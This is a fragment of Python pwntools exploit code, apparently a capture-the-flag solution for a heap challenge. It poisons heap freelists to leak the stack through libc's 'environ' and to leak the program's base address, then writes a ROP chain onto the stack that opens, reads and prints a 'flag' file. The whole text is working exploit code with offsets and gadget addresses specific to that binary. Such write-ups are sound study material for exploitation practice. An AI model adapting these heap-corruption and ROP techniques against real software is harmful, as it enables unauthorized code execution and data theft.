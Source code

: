   ```python
	wp_delete(r, 2)
	wp_edit(r, 2, p64(lib_base + lib.sym['environ']))
	wp_add(r, 2, 0x50)
	wp_add(r, 13, 0x50)
	wp_show(r, 13)
	edit_stack = u64(r.recv(6).ljust(8, '\x00')) - 0x7ffcb363c768 + 0x7ffcb363c640
	log.info('edit_stack => %#x'%(edit_stack))

	# get the code
	wp_delete(r, 5)
	wp_delete(r, 4)
	wp_edit(r, 4, p64(edit_stack + 0x10 + 8))
	wp_add(r, 4, 0x50)
	wp_add(r, 4, 0x50)
	wp_show(r, 4)
	code_base = u64(r.recv(6).ljust(8, '\x00')) - 0xfe1
	log.info('code_base => %#x'%(code_base))


	# rop: read(0, buf, 0x200)
	edit_stack = edit_stack + 0x10 + 8
	shellcode = p64(code_base + 0x104a) + p64(0) + p64(1) + p64(code_base + elf.got['read']) + p64(0) + p64(edit_stack + 0x8 * 8) + p64(8 * 31 + len('flag') + 1) + p64(code_base + 0x1030) + p64(0) + p64(0)[:-1]
	wp_edit(r, 4, shellcode)

	edit_stack = edit_stack + 0x8 * 8
	flag_addr = edit_stack + 8 * 31
	shellcode = p64(0) * 7 + p64(code_base + 0x1053) + p64(flag_addr) + p64(code_base + 0x1051) + p64(4) + p64(0) + p64(lib_base + lib.sym['open']) + p64(code_base + 0x104a) + p64(0) + p64(1) + p64(code_base + elf.got['read']) + p64(3) + p64(flag_addr) + p64(0x40) + p64(code_base + 0x1030) + p64(0) * 7 + p64(code_base + 0x1053) + p64(flag_addr) + p64(code_base + elf.plt['puts'])
	r.send(shellcode + 'flag\x00')
	r.interactive()


exp()
log.info('-----------------------------------------------------------')
```
